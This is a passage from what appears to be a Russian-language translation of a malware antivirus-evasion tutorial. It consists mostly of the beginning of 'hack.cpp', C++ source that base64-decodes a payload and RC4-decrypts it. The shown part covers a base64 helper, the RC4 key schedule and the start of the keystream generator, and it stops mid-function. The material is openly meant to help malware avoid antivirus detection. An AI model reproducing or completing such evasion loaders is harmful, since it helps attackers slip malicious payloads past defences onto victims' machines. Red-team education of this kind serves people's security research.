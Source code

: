 ```cpp
//...
```

Наконец, у нас есть полный исходный код:      

```cpp
/*
hack.cpp
RC4 encrypt payload
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/16/malware-av-evasion-9.html
*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <windows.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")

int b64decode(const BYTE * src, unsigned int srcLen, char * dst, 
unsigned int dstLen) {
  DWORD outLen;
  BOOL fRet;
  outLen = dstLen;
  fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, 
  (BYTE * )dst, &outLen, NULL, NULL);
  if (!fRet) outLen = 0;  // failed
  return (outLen);
}

// swap
void swap(unsigned char *a, unsigned char *b) {
  unsigned char tmp;
  tmp = *a;
  *a = *b;
  *b = tmp;
}

// key-scheduling algorithm (KSA)
void KSA(unsigned char *s, unsigned char *key, int keyL) {
  int k;
  int x, y = 0;

  // initialize
  for (k = 0; k < 256; k++) {
    s[k] = k;
  }

  for (x = 0; x < 256; x++) {
    y = (y + s[x] + key[x % keyL]) % 256;
    swap(&s[x], &s[y]);
  }
  return;
}

// pseudo-random generation algorithm (PRGA)
unsigned char* PRGA(unsigned char* s, unsigned int messageL) {
  int i = 0, j = 0;
  int k;

  unsigned char* keystream;
  keystream = (unsigned char *)malloc(sizeof(unsigned char)*messageL);
  for(k = 0; k < messageL; k++) {
```